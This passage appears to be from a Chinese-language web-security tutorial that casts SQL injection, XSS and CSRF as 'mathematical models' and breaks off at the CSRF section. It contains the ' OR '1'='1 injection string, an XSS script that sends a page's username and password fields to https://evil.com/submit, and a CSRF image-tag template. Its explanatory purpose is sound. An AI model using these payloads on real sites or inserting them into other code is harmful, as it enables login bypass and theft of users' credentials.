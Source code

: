 $$
SQL = SELECT * FROM Users WHERE Username = \text{input} AND Password = \text{input}
$$

其中，`input` 表示用户输入的值。例如，假设用户输入了用户名 "admin" 和密码 "123"，则SQL查询语句为：

$$
SQL = SELECT * FROM Users WHERE Username = 'admin' AND Password = '123'
$$

如果输入的值未被正确处理或验证，攻击者可以构造恶意的输入值，如：

```
' OR '1'='1
```

这将导致SQL查询语句变为：

$$
SQL = SELECT * FROM Users WHERE Username = '' OR '1'='1' AND Password = '' OR '1'='1'
$$

由于 `1=1` 总是为真，该查询语句将返回所有用户的数据，攻击者成功绕过了用户认证。

### 4.2 XSS攻击数学模型

跨站脚本攻击（XSS）是一种常见的Web安全漏洞，其数学模型可以表示为：

$$
XSS = <script>\text{evil_script}</script>
$$

其中，`evil_script` 表示恶意脚本。例如，攻击者编写了一个恶意脚本，用于窃取用户的登录凭据，脚本代码如下：

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://evil.com/submit", true);
  xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhr.send("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value);
</script>
```

攻击者可以将该脚本嵌入到受害者的网页中，例如在评论区发布恶意评论：

```
评论：<script>...（恶意脚本代码）...</script>
```

当用户访问该评论时，恶意脚本将被执行，窃取用户的登录凭据并提交到攻击者的服务器。

### 4.3 CSRF攻击数学模型

跨站请求伪造（CSRF）攻击是一种常见的Web安全漏洞，其数学模型可以表示为：

$$
CSRF = <img src="https://target.com/execute?param1=value1&param2=value2" />
$$
